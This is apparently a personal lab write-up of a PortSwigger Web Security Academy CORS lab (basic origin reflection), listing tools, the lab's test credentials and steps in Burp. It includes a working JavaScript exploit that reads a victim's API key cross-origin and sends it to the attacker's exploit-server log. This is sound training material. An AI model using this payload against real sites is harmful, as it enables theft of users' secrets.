 
## Tools
- https://github.com/s0md3v/Corsy
- https://portswigger.net/bappstore/420a28400bad4c9d85052f8d66d3bbd8


# 1. Basic origin reflection
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. 
You can log in to your own account using the following credentials: `wiener:peter`

**Analysis:**
1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
2. Send the request to Burp Repeater, and resubmit it with the added header:
    `Origin: https://example.com` and observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
3. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` (which is reflected in host) with your unique lab URL:
    ```javascript
    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
	</script>
    ```
4. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL. Go back to the exploit server and click **Deliver exploit to victim**. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

**Workflow:**
1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
	![](Pasted%20image%2020250304113109.png)

2. Send the request to Burp Repeater, and resubmit it with the added header:
`Origin: https://example.com` and observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
	![](Pasted%20image%2020250304113230%201.png)
	
